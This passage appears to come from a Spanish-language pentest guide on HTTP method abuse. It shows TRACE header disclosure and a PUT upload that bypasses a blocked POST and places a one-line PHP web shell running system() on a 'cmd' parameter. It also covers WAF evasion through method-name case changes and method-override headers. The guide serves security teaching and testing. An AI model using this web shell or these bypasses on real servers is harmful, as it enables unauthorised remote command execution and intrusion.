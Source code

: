 ### Caso 3: Revelación de Información
```http
# TRACE revela headers internos
TRACE /admin HTTP/1.1
Host: target.com

# Respuesta incluye headers del servidor
HTTP/1.1 200 OK
Content-Type: message/http

TRACE /admin HTTP/1.1
Host: target.com
X-Internal-User: admin
X-Debug-Mode: enabled
```

### Caso 4: File Upload Bypass
```http
# POST bloqueado para upload
POST /upload HTTP/1.1
Host: target.com
Content-Type: multipart/form-data
# Response: 405 Method Not Allowed

# PUT permite bypass
PUT /upload/shell.php HTTP/1.1
Host: target.com
Content-Type: text/plain

<?php system($_GET['cmd']); ?>
```

---

## Evasión de Controles

### WAF Evasion Techniques

#### 1. Case Manipulation
```http
# Diferentes variaciones de case
get /admin HTTP/1.1
Get /admin HTTP/1.1
GET /admin HTTP/1.1
GeT /admin HTTP/1.1
```

#### 2. Method Overriding
```http
# Headers de override
X-HTTP-Method-Override: DELETE
X-HTTP-Method: PUT
X-Method-Override: PATCH
_method: DELETE (en body)
```

